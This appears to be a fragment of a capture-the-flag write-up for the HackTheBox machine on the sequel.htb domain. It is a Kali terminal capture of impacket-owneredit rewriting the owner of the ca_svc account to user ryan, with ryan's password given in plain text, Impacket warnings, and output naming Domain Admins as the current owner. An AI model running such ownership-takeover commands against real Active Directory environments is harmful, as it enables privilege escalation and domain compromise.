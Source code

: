 ```bash
──(kali㉿kali)-[~]
└─$ impacket-owneredit -action write -new-owner ryan -target ca_svc sequel.htb/ryan:WqSZAF6CysDQbGb3 

/usr/share/doc/python3-impacket/examples/owneredit.py:87: SyntaxWarning: invalid escape sequence '\V'
  'S-1-5-83-0': 'NT VIRTUAL MACHINE\Virtual Machines',
/usr/share/doc/python3-impacket/examples/owneredit.py:96: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-554': 'BUILTIN\Pre-Windows 2000 Compatible Access',
/usr/share/doc/python3-impacket/examples/owneredit.py:97: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-555': 'BUILTIN\Remote Desktop Users',
/usr/share/doc/python3-impacket/examples/owneredit.py:98: SyntaxWarning: invalid escape sequence '\I'
  'S-1-5-32-557': 'BUILTIN\Incoming Forest Trust Builders',
/usr/share/doc/python3-impacket/examples/owneredit.py:100: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-558': 'BUILTIN\Performance Monitor Users',
/usr/share/doc/python3-impacket/examples/owneredit.py:101: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-559': 'BUILTIN\Performance Log Users',
/usr/share/doc/python3-impacket/examples/owneredit.py:102: SyntaxWarning: invalid escape sequence '\W'
  'S-1-5-32-560': 'BUILTIN\Windows Authorization Access Group',
/usr/share/doc/python3-impacket/examples/owneredit.py:103: SyntaxWarning: invalid escape sequence '\T'
  'S-1-5-32-561': 'BUILTIN\Terminal Server License Servers',
/usr/share/doc/python3-impacket/examples/owneredit.py:104: SyntaxWarning: invalid escape sequence '\D'
  'S-1-5-32-562': 'BUILTIN\Distributed COM Users',
/usr/share/doc/python3-impacket/examples/owneredit.py:105: SyntaxWarning: invalid escape sequence '\C'
  'S-1-5-32-569': 'BUILTIN\Cryptographic Operators',
/usr/share/doc/python3-impacket/examples/owneredit.py:106: SyntaxWarning: invalid escape sequence '\E'
  'S-1-5-32-573': 'BUILTIN\Event Log Readers',
/usr/share/doc/python3-impacket/examples/owneredit.py:107: SyntaxWarning: invalid escape sequence '\C'
  'S-1-5-32-574': 'BUILTIN\Certificate Service DCOM Access',
/usr/share/doc/python3-impacket/examples/owneredit.py:108: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-575': 'BUILTIN\RDS Remote Access Servers',
/usr/share/doc/python3-impacket/examples/owneredit.py:109: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-576': 'BUILTIN\RDS Endpoint Servers',
/usr/share/doc/python3-impacket/examples/owneredit.py:110: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-577': 'BUILTIN\RDS Management Servers',
/usr/share/doc/python3-impacket/examples/owneredit.py:111: SyntaxWarning: invalid escape sequence '\H'
  'S-1-5-32-578': 'BUILTIN\Hyper-V Administrators',
/usr/share/doc/python3-impacket/examples/owneredit.py:112: SyntaxWarning: invalid escape sequence '\A'
  'S-1-5-32-579': 'BUILTIN\Access Control Assistance Operators',
/usr/share/doc/python3-impacket/examples/owneredit.py:113: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-580': 'BUILTIN\Remote Management Users',
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
```